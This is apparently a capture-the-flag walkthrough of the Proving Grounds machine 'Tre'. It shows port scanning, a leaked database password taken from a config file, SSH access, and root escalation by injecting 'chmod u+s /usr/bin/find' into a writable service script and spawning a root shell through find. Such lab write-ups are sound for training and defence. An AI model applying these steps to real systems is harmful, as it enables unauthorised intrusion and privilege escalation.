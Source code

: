 ```yaml
---
categories: [Proving Grounds Play, Walkthrough]
tags: [PrivEsc]
---
```


### Lets see the IP address →

```bash
IP : 192.168.249.142
```

## Port Scan Results ➡️

```bash
┌──(kali㉿kali)-[~/Downloads/Proving_Ground/TRE]
└─$ sudo nmap -sC -sV -p- -T4 -oN Nmap_results.txt 192.168.249.142
Starting Nmap 7.94 ( https://nmap.org ) at 2023-07-16 14:29 IST
Nmap scan report for 192.168.249.142
Host is up (0.00028s latency).
Not shown: 65532 closed tcp ports (reset)
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
| ssh-hostkey: 
|   2048 99:1a:ea:d7:d7:b3:48:80:9f:88:82:2a:14:eb:5f:0e (RSA)
|   256 f4:f6:9c:db:cf:d4:df:6a:91:0a:81:05:de:fa:8d:f8 (ECDSA)
|_  256 ed:b9:a9:d7:2d:00:f8:1b:d3:99:d6:02:e5:ad:17:9f (ED25519)
80/tcp   open  http    Apache httpd 2.4.38 ((Debian))
|_http-server-header: Apache/2.4.38 (Debian)
|_http-title: Tre
8082/tcp open  http    nginx 1.14.2
|_http-server-header: nginx/1.14.2
|_http-title: Tre
MAC Address: 00:0C:29:7F:7E:7D (VMware)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

---

## Web Enumeration ➡️

Lets see the webpage →

![Untitled](/Vulnhub-Files/img/Tre/Untitled.png)

Now after directory Traversal I found different sites or directories running different services so lets see the config files first for credentials →

![Untitled](/Vulnhub-Files/img/Tre/Untitled%201.png)

![Untitled](/Vulnhub-Files/img/Tre/Untitled%202.png)

```bash
# --- Database Configuration ---
$g_hostname      = 'localhost';
$g_db_username   = 'mantissuser';
$g_db_password   = 'password@123AS';
$g_database_name = 'mantis';
$g_db_type       = 'mysqli';
```

Lets use this credentials here `adminer.php` file →

![Untitled](/Vulnhub-Files/img/Tre/Untitled%203.png)

After entering that data I am in →

![Untitled](/Vulnhub-Files/img/Tre/Untitled%204.png)

Now I got the username and password credentials so lets alter that data and use it to login into the shell with our put data into it →

![Untitled](/Vulnhub-Files/img/Tre/Untitled%205.png)

Now lets modify it now →

![Untitled](/Vulnhub-Files/img/Tre/Untitled%206.png)

Now lets use this to replace our password hashes and save that →

I tried to access the ssh login with hash password but no luck , then I tried its different looking realnames and tried it as a passwords and see I got in as tre user →

```bash
┌──(kali㉿kali)-[~/Downloads/Proving_Ground/TRE]
└─$ sudo ssh tre@192.168.249.142     
tre@192.168.249.14 password: 
Linux tre 4.19.0-9-amd64 #1 SMP Debian 4.19.118-2 (2020-04-29) x86_64

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
Last login: Tue May 12 23:56:00 2020 from 192.168.17.172
tre@tre:~$ whoami
tre
tre@tre:~$ id
uid=1000(tre) gid=1000(tre) groups=1000(tre),24(cdrom),25(floppy),29(audio),30(dip),44(video),46(plugdev),109(netdev)
tre@tre:~$
```

Lets see `local.txt` file →

```bash
tre@tre:~$ ls -al
total 24
drwxr-xr-x 2 tre  tre  4096 Aug 23  2020 .
drwxr-xr-x 3 root root 4096 May 11  2020 ..
-rw-r--r-- 1 tre  tre   220 May 11  2020 .bash_logout
-rw-r--r-- 1 tre  tre  3526 May 11  2020 .bashrc
-rw-r--r-- 1 tre  tre    33 Jul 16 06:52 local.txt
-rw-r--r-- 1 tre  tre   807 May 11  2020 .profile
tre@tre:~$ cat local.txt
ec6b0276b5cbf898afe3bdb7c8da36b1
tre@tre:~$
```

Now while cheching proccess running I got this →

![Untitled](/Vulnhub-Files/img/Tre/Untitled%207.png)

```bash
tre@tre:/tmp$ ls -al /usr/bin/check-system
-rw----rw- 1 root root 135 May 12  2020 /usr/bin/check-system
tre@tre:/tmp$ sudo -l
Matching Defaults entries for tre on tre:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User tre may run the following commands on tre:
    (ALL) NOPASSWD: /sbin/shutdown
tre@tre:/tmp$
tre@tre:/tmp$ cat /usr/bin/check-system
DATE=`date '+%Y-%m-%d %H:%M:%S'`
echo "Service started at ${DATE}" | systemd-cat -p info

while :
do
echo "Checking...";
sleep 1;
done
tre@tre:/tmp$
```

So after trying this `sudo shutdown` I got this →

```bash
tre@tre:/tmp$ sudo shutdown
Shutdown scheduled for Sun 2023-07-16 06:28:59 EDT, use 'shutdown -c' to cancel.
tre@tre:/tmp$
```

means that I execute my command on writing into `/usr/bin/check-system` file and when I execute the `sudo shutdown` command it will also execute as root user so lets do it —>

```bash
tre@tre:~$ echo 'chmod u+s /usr/bin/find'> /usr/bin/check-system
tre@tre:~$ sudo /sbin/shutdown -r now
tre@tre:~$ Connection to 192.168.249.142 closed by remote host.
Connection to 192.168.249.142 closed.
```

Now its time to restart the tre shell with ssh commands and lets check the `/usr/bin/find` command got SUIDs permissions or not →

```bash
┌──(kali㉿kali)-[~/Downloads/Proving_Ground/TRE]
└─$ sudo ssh tre@192.168.249.142 -p 22    
tre@192.168.249.142s password: 
Linux tre 4.19.0-9-amd64 #1 SMP Debian 4.19.118-2 (2020-04-29) x86_64

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
Last login: Sun Jul 16 06:35:35 2023 from 192.168.249.128
tre@tre:~$ ls -al /usr/bin/find
-rwsr-xr-x 1 root root 315904 Feb 16  2019 /usr/bin/find
tre@tre:~$ find . -exec /bin/bash -p \; -quit
bash-5.0# whoami
root
bash-5.0# id
uid=1000(tre) gid=1000(tre) euid=0(root) groups=1000(tre),24(cdrom),25(floppy),29(audio),30(dip),44(video),46(plugdev),109(netdev)
bash-5.0# cd /root
bash-5.0# ls -al
total 24
drwx------  2 root root 4096 Jul 16 06:52 .
drwxr-xr-x 18 root root 4096 Jul  7  2020 ..
-rw-------  1 root root    0 Sep  3  2020 .bash_history
-rw-r--r--  1 root root  570 Jan 31  2010 .bashrc
-rw-r--r--  1 root root  148 Aug 17  2015 .profile
-rw-r--r--  1 root root   33 Jul 16 06:52 proof.txt
-rw-r--r--  1 root root   32 Aug 23  2020 root.txt
bash-5.0# cat proof.txt
71a1ba68d15d0ebde47c8b8090b065cf
bash-5.0# cat root.txt
Your flag is in another file...
bash-5.0#
```